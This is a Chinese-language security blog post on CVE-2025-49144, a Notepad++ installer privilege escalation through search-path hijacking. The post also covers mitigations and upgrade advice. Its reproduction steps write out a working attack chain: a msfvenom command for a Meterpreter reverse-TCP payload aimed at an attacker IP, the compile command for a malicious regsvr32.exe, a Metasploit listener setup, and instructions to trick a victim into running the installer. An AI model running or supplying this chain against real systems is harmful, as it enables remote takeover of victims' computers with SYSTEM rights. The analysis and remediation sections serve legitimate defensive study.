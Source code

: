 #  Notepad++提权漏洞POC及一键部署环境【CVE-2025-49144】  
原创 赵小龙  红岸基地网络安全   2025-07-05 02:00  
  
# Notepad++ 提权漏洞深度分析  
  
CVE-2025-49144 | 从普通用户到SYSTEM权限  
  
CVSS 8.1 高危漏洞  
  
免责声明  
  
本内容仅限于合法的网络安全学习、研究和教学用途。严禁用于未经授权的渗透测试或攻击行为。使用者需遵守相关法律法规，自行承担因不当使用造成的法律责任。  
  
## 漏洞概述  
  
▍关于Notepad++  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2FibdfL4fGpSib6fTcIicVqrLg3FiaqdwQnOtjoeLUHkibHFxiczibU2runk1fGZGxVYnu9oNBsLFHQx5akDHE6DVKrAQ/640?wx_fmt=png&from=appmsg "")  
  
  
Notepad++ 是Windows平台广泛使用的开源文本编辑器，支持多种编程语言语法高亮、代码折叠和插件扩展。  
  
▍漏洞核心机制  
  
在Notepad++**8.8.1及之前版本**  
的安装程序中，存在**不安全的可执行文件搜索路径问题**  
。  
  
攻击者可将恶意文件与安装程序置于同一目录（如"下载"文件夹），当用户运行安装程序时，恶意代码将以**SYSTEM权限**  
执行。  
  
攻击路径  
  
1. 诱骗用户下载安装包和恶意文件到同一目录  
  
2. 用户运行Notepad++安装程序  
  
3. 恶意代码以SYSTEM权限执行  
  
## 受影响版本  
  
Notepad++**< 8.8.2**  
  
1  
  
漏洞引入  
  
历史版本均存在  
  
2  
  
漏洞发现  
  
2025年4月  
  
3  
  
修复发布  
  
2025年5月  
  
## 漏洞复现步骤  
  
▍步骤1：生成恶意载荷  
  
msfvenom -p windows/x64/meterpreter/reverse_tcp \  
  
LHOST=攻击者IP LPORT=监听端口 -f c >shellcode.txt  
  
此命令生成C格式的Shellcode，用于后续编译恶意程序。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2FibdfL4fGpSib6fTcIicVqrLg3FiaqdwQnOld3AbezmErJH4yVrK2l1dbynfWeobxm1kpDyuU64hZ71coia0pDF3SQ/640?wx_fmt=png&from=appmsg "")  
  
  
▍步骤2：编译恶意程序  
  
x86_64-w64-mingw32-gcc regsvr32_loader.c \  
  
-o regsvr32.exe -mwindows  
  
编译生成恶意regsvr32.exe程序，该名称利用了安装程序搜索路径漏洞。  
  
▍步骤3：设置监听  
  
msfconsole  
  
use exploit/multi/handler  
  
set payload windows/x64/meterpreter/reverse_tcp  
  
set LHOST 攻击者IP  
  
set LPORT 监听端口  
  
run  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2FibdfL4fGpSib6fTcIicVqrLg3FiaqdwQnOm9gZL4mknMB6Iz1PQPB9ibgibZDXtytLia4hurj4dAUrdvVX6ngjic6I6Q/640?wx_fmt=png&from=appmsg "")  
  
  
在攻击机器上设置Metasploit监听，等待受害者连接。  
  
▍步骤4：实施攻击  
  
1. 将  
notepad++_installer.exe  
和  
regsvr32.exe  
放入同一目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2FibdfL4fGpSib6fTcIicVqrLg3FiaqdwQnOGiauC9VhnSdL0ZO0yHI75Mfx3NF1A7icibkcmjZgiaWz2FLxEx6zj6n74g/640?wx_fmt=png&from=appmsg "")  
  
  
2. 诱骗用户运行安装程序  
  
3. 当安装过程卡住时，攻击已完成  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2FibdfL4fGpSib6fTcIicVqrLg3FiaqdwQnOkATiacsUbH5y1f8w1CgELuUy6BCdznxVeMEUhSRlUiaQInP5d8TdQuoA/640?wx_fmt=png&from=appmsg "")  
  
  
[安装程序卡住时的界面截图位置]  
  
此时已获取SYSTEM权限  
  
## 技术原理分析  
  
▍漏洞根源：DLL搜索顺序劫持  
  
Windows应用程序加载DLL时，默认优先搜索当前目录。Notepad++安装程序在执行过程中会调用系统程序（如regsvr32），但未指定完整路径。  
  
▍攻击链分析  
  
1. 安装程序在当前目录搜索regsvr32.exe  
  
2. 攻击者伪造的恶意regsvr32.exe被优先加载  
  
3. 恶意程序以安装程序的权限（SYSTEM）执行  
  
4. 攻击者获得目标系统的完全控制权  
  
▍实际利用挑战  
  
• 需要用户下载两个文件到同一目录  
  
• 依赖社会工程学技巧诱导用户  
  
• 安装过程中会出现卡顿可能引起怀疑  
  
## 防护与修复方案  
  
▍紧急修复措施  
  
1. 立即升级到  
Notepad++ ≥ 8.8.2  
  
2. 检查已安装版本：帮助 → 关于Notepad++  
  
3. 从官网下载最新安装包：  
https://notepad-plus-plus.org  
  
▍企业防护建议  
  
• 使用软件分发系统统一部署更新  
  
• 限制用户下载目录的执行权限  
  
• 部署端点安全解决方案检测异常行为  
  
• 对用户进行安全意识培训  
  
▍开发者最佳实践  
  
• 始终使用绝对路径调用系统程序  
  
• 实现文件完整性检查机制  
  
• 遵循最小权限原则运行安装程序  
  
下载Notepad++ 8.8.2查看CVE详情  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2FibdfL4fGpSib6fTcIicVqrLg3FiaqdwQnOpXEyEyIE1YyAU6SHqau4AmZISeuJgcDdiaT585FQdWnicZXhUC6nxsXg/640?wx_fmt=png&from=appmsg "")  
  
  
安全研究仅供参考 | 请遵守网络安全法律法规  
  
© 2025 网络安全实验室 | Notepad++漏洞分析报告  
  
